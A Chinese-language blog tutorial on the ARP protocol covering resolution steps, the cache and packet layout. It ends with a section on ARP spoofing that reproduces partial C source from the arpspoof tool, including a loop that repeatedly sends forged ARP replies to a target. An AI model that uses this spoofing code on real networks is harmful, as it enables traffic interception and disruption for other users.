 ```yaml
---
layout: post
section-type: post
title: ARP协议
category: Category
tags: [ 'arp欺骗', 'arp协议' ]
---
```


ARP：地址解析协议，为IP地址到对应的硬件地址提供动态映射。这个过程是自动完成的，应用程序和系统管理员不用关心。

假如我们通过浏览器访问  www.baidu.com ，这中间到底都发生了什么，我们来分析一下：

1.应用程序(也就是http协议)首先通过调用函数 gethostbyname() 把域名解析为32位的IP地址，这个转换过程使用的是 DNS 域名解析服务。

2.客户端请求TCP用得到的IP地址建立链接。

3.TCP发送一个链接请求分段到远端的主机，即用上述IP地址发送一份 IP 数据报

4.如果目的主机在本地网络上（如以太网、令牌环网或点对点链接的另一端），那么IP数据报可以直接送到目的主机上。如果目的主机在一个远程网络上，那么就通过IP选路来确定位于网络上的下一站路由器地址，并让它转发IP数据报。这两种情况下，IP数据报都是被发送到位于本地网上的一台主机或者路由器。

5.假定是一个以太网，那么发送端必须把32bit的IP地址转换成48bit的以太网地址。从逻辑Internet地址到对应的物理地址需要进行翻译。 这就是ARP的功能。（我们的主机和 www.baidu.com 应该没在一个局域网，所以它是发往路由器的）ARP本来是用于广播网络的，有许多主机或路由器连在同一个网络上。

6.ARP发送一份称做ARP请求的以太网数据帧给以太网山的每个主机。这个过程称做广播，ARP请求数据帧中包含目的主机的IP地址，其意思是“如果你是这个IP地址的拥有者，请回答你的硬件地址。”

7.目的主机的ARP层收到这个广播报文后，识别出这是发送端在询问它的地址，于是发送一个ARP应答。这个ARP应答包含IP地址以及对应的硬件地址。

8.受到ARP应答后，使ARP进行请求--应答交换的IP数据报现在就可以传送了。

9.发送IP数据报到目的主机。

在ARP背后有一个基本概念，那就是网络接口有一个硬件地址（一个48bit的值，标识不同的以太网或者令牌环网接口）。在硬件层次上进行的数据帧交换必须有正确的接口地址。但是，TCP/IP有自己的地址：32bit的IP地址。知道主机的IP地址并不能让内核发送一帧数据给主机。内核（如以太网驱动程序）必须知道目的端的硬件地址才能发送。

ARP高速缓存：ARP高效运行的关键是由于每个主机上都有一个ARP高速缓存。这个高速缓存存放了最近Internet地址到硬件地址的映射记录。高速缓存中的每一项的生存时间一般为20分钟，起始时间从被创建是开始算起。

可以用 arp 命令查看ARP缓存。


ARP 协议分组格式：

<pre><code data-trim class="c">
{% raw %}
| - - - - - -|- - -- -- | -  -| - -  |  - -  |    -     |    -     |--| - - -- - -  | - -- -| - - - - - -|- ---|
|      6     |     6    |  2  |   2  |   2   |    1     |    1     |2 |      6      |   4   |     6      |  4  |
|以太网目的地址|以太网源地址|帧类型|硬件类型|协议类型|硬件地址长度|协议地址长度|OP|发送端以太网地址|发送端IP|目的以太网地址|目的IP|
|-------------以太网首部----- --|-----------------28字节ARP请求/应答-----------------------------------------------|
{% endraw %}
</code></pre>
帧类型表示后面的数据类型，对于ARP协议来说，该字段的值为 0x0806;

硬件类型表示硬件地址的类型。它的值为 1 表示以太网地址。

协议类型表示要映射的协议地址类型。 它的值为 0x0800 即表示 IP 地址。

硬件地址长度和协议地址长度分别表示硬件地址和协议地址的长度，以字节为单位。对于以太网上IP地址请求或应答来说，他们的值分别为 6 和 4 .

OP 操作字段指出四种操作类型， 他们是 ARP请求（值为1），ARP应答（值为2），RARP请求（值为3）,RARP应答（值为4）

接下来四个字段是发送端的硬件地址，发送端的协议地址，目的端的硬件地址，目的端的协议地址。

对于一个ARP请求来说，除目的端硬件地址外的所有其他字段都有填充值。当系统收到一份目的端地址为本机的ARP请求报文后，它就把硬件地址填进去，然后用两个目的端地址分别替换两个发送端地址，并把操作字段改为 2 ,最后发送出去。

ARP欺骗：我们已经知道 ARP 协议是 IP 地址到 硬件地址的映射，那么 ARP 欺骗就很好理解，就是人为的在网络中发送虚假的 ARP 应答包，致使被欺骗的主机更新ARP高速缓存，这样被欺骗的主机就不能正确发送数据到目的主机。（linux 有个命令arpspoof，大家可以试试，如果目标主机设置的是静态ARP映射，ARP欺骗是没用的，~.~）

arpspoof 是使用 libpcap 和 libnet 两个库来实现的，  libpcap 用来获取本地网卡信息， libnet 用来构造 ARP 报文并发送

下面是部分源码，完整代码可以自己补充

<pre><code data-trim class="c">
{% raw %}
int
main(int argc, char *argv[])
{
	int c;
	char ebuf[PCAP_ERRBUF_SIZE];

	intf = NULL;
	spoof_ip = target_ip = 0;

	while ((c = getopt(argc, argv, "i:t:h?V")) != -1) {
		switch (c) {
		case 'i':
			intf = optarg;
			break;
		case 't':
			if ((target_ip = libnet_name_resolve(optarg, 1)) == -1)
				usage();
			break;
		default:
			usage();
		}
	}
	argc -= optind;
	argv += optind;

	if (argc != 1)
		usage();

	/*域名解析为 IP 地址*/
	if ((spoof_ip = libnet_name_resolve(argv[0], 1)) == -1)  
		usage();

  /*获取本地网卡*/
	if (intf == NULL && (intf = pcap_lookupdev(ebuf)) == NULL)
		errx(1, "%s", ebuf);

	/*初始化 libnet 句柄*/
	if ((llif = libnet_open_link_interface(intf, ebuf)) == 0)
		errx(1, "%s", ebuf);

	/*获取目标主机的 MAC 地址*/
	if (target_ip != 0 && !arp_find(target_ip, &target_mac))
		errx(1, "couldn't arp for host %s",
		     libnet_host_lookup(target_ip, 0));

	signal(SIGHUP, cleanup);
	signal(SIGINT, cleanup);
	signal(SIGTERM, cleanup);

	for (;;) {
		arp_send(llif, intf, ARPOP_REPLY, NULL, spoof_ip,
			 (target_ip ? (u_char *)&target_mac : NULL),
			 target_ip);
		sleep(2);
	}
	/* NOTREACHED */

	exit(0);
}
{% endraw %}
</code></pre>


arp_send() 函数是构造 ARP 欺骗包并发送的实现


<pre><code data-trim class="c">
{% raw %}

int arp_send(struct libnet_link_int *llif, char *dev, int op, u_char *sha, in_addr_t spa, u_char *tha, in_addr_t tpa)
{
	char ebuf[128];
	u_char pkt[60];

  /*获取本地 mac 地址*/
	if (sha == NULL && (sha = (u_char *)libnet_get_hwaddr(llif, dev, ebuf)) == NULL) {
		return (-1);
	}

  /*获取本地 IP 地址*/
	if (spa == 0) {
		if ((spa = libnet_get_ipaddr(llif, dev, ebuf)) == 0)
			return (-1);
		spa = htonl(spa); /* XXX */
	}
	if (tha == NULL)
		tha = "\xff\xff\xff\xff\xff\xff";

  /*构造链路层数据包*/
	libnet_build_ethernet(tha, sha, ETHERTYPE_ARP, NULL, 0, llif, 0);
  /*构造ARP数据报*/
  libnet_build_arp(ARPHRD_ETHER, ETHERTYPE_IP, ETHER_ADDR_LEN, 4,
       op, sha, (u_char *)&spa, tha, (u_char *)&tpa, NULL, 0, llif, 0);

	fprintf(stderr, "%s ",
		ether_ntoa((struct ether_addr *)sha));

	if (op == ARPOP_REQUEST) {
		fprintf(stderr, "%s 0806 42: arp who-has %s tell %s\n",
			ether_ntoa((struct ether_addr *)tha),
			libnet_host_lookup(tpa, 0),
			libnet_host_lookup(spa, 0));
	}
	else {
		fprintf(stderr, "%s 0806 42: arp reply %s is-at ",
			ether_ntoa((struct ether_addr *)tha),
			libnet_host_lookup(spa, 0));
		fprintf(stderr, "%s\n",
			ether_ntoa((struct ether_addr *)sha));
	}
  /*发送 数据包 */
	return (libnet_write(llif));
}
{% endraw %}
</code></pre>

请谨慎使用。
